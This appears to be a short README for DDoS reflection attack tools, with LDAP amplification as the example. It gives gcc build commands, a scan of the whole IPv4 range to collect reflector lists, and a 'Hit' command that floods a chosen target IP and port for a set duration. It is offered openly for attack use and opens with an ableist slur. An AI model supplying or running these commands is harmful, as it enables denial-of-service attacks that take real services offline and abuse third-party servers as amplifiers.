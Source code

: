 # For ddos retards
# Enjoy
# >Commands< 
gcc -o NAME NAME.C -pthread

EX - gcc -o ldap ldap.c -pthread
# Scanning
./name 1.1.1.1 255.255.255.255 name.txt 2 1ms

./ldapscan 1.1.1.1 255.255.255.255 ldap.txt 2 1ms

1.1.1.1 defines starting range; 255.255.255.255 defines end scan range; the name.txt is the reflection file you are scanning

the (2) is the amount of threads this process takes to run
# Hit

./name IP PORT name.txt 2 -1 TIME

EX ./ldap 1.1.1.1 80 ldap.txt 2 -1 500
# :) 
